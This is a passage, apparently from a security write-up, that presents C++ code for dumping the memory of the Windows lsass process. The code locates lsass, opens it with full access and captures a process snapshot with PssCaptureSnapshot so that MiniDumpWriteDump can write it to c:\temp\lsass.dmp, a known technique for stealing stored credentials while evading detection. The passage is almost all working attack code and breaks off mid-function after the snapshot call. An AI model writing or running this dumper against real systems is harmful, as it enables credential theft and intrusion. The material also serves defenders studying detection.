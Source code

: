 Below is the modified dumper code that uses the `PssCaptureSnapshot` to obtain a snapshot of the lsass process. The handle that is returned by the `PssCaptureSnapshot` is then used in the `MiniDumpWriteDump` call instead of the lsass process handle. This is done via the minidump callback:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

BOOL CALLBACK MyMiniDumpWriteDumpCallback(
	__in     PVOID CallbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
)
{
	switch (CallbackInput->CallbackType)
	{
	case 16: // IsProcessSnapshotCallback
		CallbackOutput->Status = S_FALSE;
		break;
	}
	return TRUE;
}

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL;
	HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}

	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

	HANDLE snapshotHandle = NULL;
	DWORD flags = (DWORD)PSS_CAPTURE_VA_CLONE | PSS_CAPTURE_HANDLES | PSS_CAPTURE_HANDLE_NAME_INFORMATION | PSS_CAPTURE_HANDLE_BASIC_INFORMATION | PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION | PSS_CAPTURE_HANDLE_TRACE | PSS_CAPTURE_THREADS | PSS_CAPTURE_THREAD_CONTEXT | PSS_CAPTURE_THREAD_CONTEXT_EXTENDED | PSS_CREATE_BREAKAWAY | PSS_CREATE_BREAKAWAY_OPTIONAL | PSS_CREATE_USE_VM_ALLOCATIONS | PSS_CREATE_RELEASE_SECTION;
	MINIDUMP_CALLBACK_INFORMATION CallbackInfo;
	ZeroMemory(&CallbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
	CallbackInfo.CallbackRoutine = &MyMiniDumpWriteDumpCallback;
	CallbackInfo.CallbackParam = NULL;

	PssCaptureSnapshot(lsassHandle, (PSS_CAPTURE_FLAGS)flags, CONTEXT_ALL, (HPSS*)&snapshotHandle);

```